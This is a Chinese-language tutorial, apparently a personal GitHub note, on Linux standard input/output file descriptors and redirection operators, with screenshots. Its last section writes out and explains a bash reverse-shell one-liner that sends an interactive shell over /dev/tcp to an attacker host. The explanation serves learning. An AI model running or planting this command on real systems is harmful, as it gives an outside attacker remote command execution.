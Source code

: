 ## 简介

标准输出代表的文件描述符为1，标准错误输出为2，标准输入为0。

标准输出的内容就是根据输入的命令计算机执行得到结果然后输出在当前tty的内容。本质上当前tty会显示输出的原理就是执行输入命令的输出结果会写到1这个文件中，然后回显到当前tty。

同样的标准输入内容就是输入到当前tty中的要被命令执行的对象。本质上在tty上输入的命令执行的对象就是先被写到0中，然后被计算机执行，然后才会产生输出，写到1中，然后回显到当前tty。

**需要注意的是，这些重定向命令只在当时那行命令有效，如果想在整个tty有效，需要在加exec关键字。**

在使用>时默认不写任何数字代表标准输出，例如>output.txt代表将标准输出重定向到output.txt文件中，等价于1>output.txt。

同样的在使用<时默认不写任何数字代表标准输入，例如<input.txt代表将标准输入重定向到input.txt文件中，等价于0<input.txt。

## >、<

#### 1、">"代表将左边输出重定向到右边

```bash
command 1>output.txt
//代表将标准输出重定向到output.txt，也就代表command执行后所有应该到标准输出文件中的内容会被重定向输出到output.txt文件里，打开output.txt就能看到原先应该在标准输出中显示内容。也就是说原先应该显示在当前tty的内容被重定向到了output.txt中。
```

不重定向执行ls的结果，回显在当前tty

![image-20240401225306398](../../photo/image-20240401225306398.png)

重定向输出ls的执行结果，没有在当前tty任何回显

![image-20240401225333258](../../photo/image-20240401225333258.png)

但是在output.txt文件中拿到了整个执行的输出

<img src="../../photo/image-20240401225342884.png" alt="image-20240401225342884" style="zoom:33%;" />

#### 2、"<"代表将左边输入重定向到右边

```bash
command 0<input.txt
//代表将标准输入重定向到input.txt，也就代表所有应该从标准输入文件中（即当前tty）读取的command要执行的对象会被输入重定向到input.txt文件里，也就是说input.txt中的所有内容将会作为命令执行的对象被tty的command读取从而执行。
```

在不重定向输入时，是在当前tty输入，然后得到结果

![image-20240401225647300](../../photo/image-20240401225647300.png)

![image-20240401225742018](../../photo/image-20240401225742018.png)

在重定向输入时，是执行了输入重定向后的input.txt中的内容。(需要执行文件中的内容时，需要用bash命令，不加bash直接输入重定向并不会执行，**因为输入重定向只不过重定向了命令执行的对象，而不是重定向了命令**)

![image-20240401225816488](../../photo/image-20240401225816488.png)

<img src="../../photo/image-20240401225826424.png" alt="image-20240401225826424" style="zoom:33%;" />

![image-20240401225838869](../../photo/image-20240401225838869.png)

## >&、<&

1、

当n>&m时代表将文件描述符n**复制**到文件描述符m，如果文件描述符 m 没有对应以读模式打开的文件，则重定向报错，如果 m的值是连字符 -，则会关闭文件描述符n。如果没有提供文件描述符n，默认会使用文件描述符 1，也就是标准输出。

2、

当n>&m时代表将文件描述符n**复制**到文件描述符m，如果文件描述符 m 没有对应以写模式打开的文件，则重定向报错，如果 m的值是连字符 -，则会关闭文件描述符n。如果没有提供文件描述符n，默认会使用文件描述符 0，也就是标准输入。

## 一句话木马中的重定向

```bash
bash -i >& /dev/tcp/47.xxx.xxx.72/2333 0>&1
```

bash -i构建一个bash交互环境，然后将这个交互环境的标准输出重定向到了tcp连接上，因为构建了一个bash交互环境，这个bash执行命令的输出都会重定向到这个tcp连接上。**此时1其实就指向了这个tcp连接。**

/dev/tcp/47.xxx.xxx.72/2333代表打开一个tcp连接。

0>&1代表将0输出重定向到了1上，即标准输入重定向到了标准输出（1），即标准输入重定向到了tcp连接，因为bash环境的存在，tcp接受到的输入内容就可以直接被bash作为命令的对象执行，这样攻击机输入的内容就被靶机作为bash命令的对象直接执行了。

**由于在bash环境下，这个输入执行的结果又会被重定向到了tcp连接，从而攻击机输入的内容被靶机执行后又输出到了攻击机上。**

#### Ps:这里的重点时如何理解这个bash交互环境，其实>& /dev/tcp/47.xxx.xxx.72/2333 0>&1这个命令就是在建立的bash的交互环境中永久性的被执行了，输入在这个bash中永久性的重定向，输出也在这个bash中永久性的重定向了。